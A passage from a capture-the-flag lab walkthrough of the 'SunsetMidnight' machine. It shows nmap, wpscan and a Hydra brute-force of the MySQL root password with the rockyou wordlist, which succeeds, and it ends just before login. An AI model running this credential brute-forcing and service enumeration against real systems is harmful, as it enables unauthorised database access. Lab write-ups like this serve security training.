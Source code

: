 First enumeration with nmap

```
# Nmap 7.93 scan initiated Mon Apr  3 10:41:37 2023 as: nmap -sC -sV -T4 -oN normal.txt -p 22,80,3306 -Pn 192.168.86.88
Nmap scan report for 192.168.86.88
Host is up (0.19s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 9cfe0b8b8d15e7727e3c23e58655512d (RSA)
|   256 feebef5d40e706679b6367f8d97ed3e2 (ECDSA)
|_  256 3583682c338bb46c2421200d52edcd16 (ED25519)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
|_http-title: Did not follow redirect to http://sunset-midnight/
|_http-server-header: Apache/2.4.38 (Debian)
3306/tcp open  mysql   MySQL 5.5.5-10.3.22-MariaDB-0+deb10u1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.22-MariaDB-0+deb10u1
|   Thread ID: 17
|   Capabilities flags: 63486
|   Some Capabilities: IgnoreSigpipes, Speaks41ProtocolNew, Support41Auth, ODBCClient, Speaks41ProtocolOld, SupportsCompression, InteractiveClient, DontAllowDatabaseTableColumn, IgnoreSpaceBeforeParenthesis, SupportsLoadDataLocal, FoundRows, SupportsTransactions, LongColumnFlag, ConnectWithDatabase, SupportsMultipleResults, SupportsAuthPlugins, SupportsMultipleStatments
|   Status: Autocommit
|   Salt: OnZW)c945Md0axY5=n7e
|_  Auth Plugin Name: mysql_native_password
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Apr  3 10:41:57 2023 -- 1 IP address (1 host up) scanned in 20.00 seconds
```
add `sunset-midnight` to `/etc/hosts` file.

![image](https://user-images.githubusercontent.com/87468669/229475426-9059fc0f-0daf-46c2-8c65-d16323368a04.png)

notice a web server running on port 80, opening it on a browser redirected us to a vhost `sunset-midnight` and as we can see it is running a wordpress cms. Let's enumerate further using `wpscan`.

```
wpscan --url http://sunset-midnight/ -e p,t,u 
```
![image](https://user-images.githubusercontent.com/87468669/229525720-679eabac-9ff4-490a-86b3-09a57ebc028c.png)

using wpscan to enumerate plugins, themes and user we can see the available plugin `simply-poll-master` and user `admin`. searching for exploits for this plugin found none. let's move to the next port `3306` mysql server.

```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/PG/SunsetMidnight]
└─$ mysql -h sunset-midnight -u root
ERROR 1045 (28000): Access denied for user 'root'@'192.168.49.139' (using password: NO)
```
tried loggin in mysql as user root without password, failed. let's try bruteforce mysql password.

```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/PG/SunsetMidnight]
└─$ hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.139.88 mysql
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-04-03 14:41:01
[INFO] Reduced number of tasks to 4 (mysql does not like many parallel connections)
[DATA] max 4 tasks per 1 server, overall 4 tasks, 7819918 login tries (l:1/p:7819918), ~1954980 tries per task
[DATA] attacking mysql://192.168.139.88:3306/
[3306][mysql] host: 192.168.139.88   login: root   password: robert
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-04-03 14:41:44
```
boom we got the password for mysql server. let's login an see what we can do.







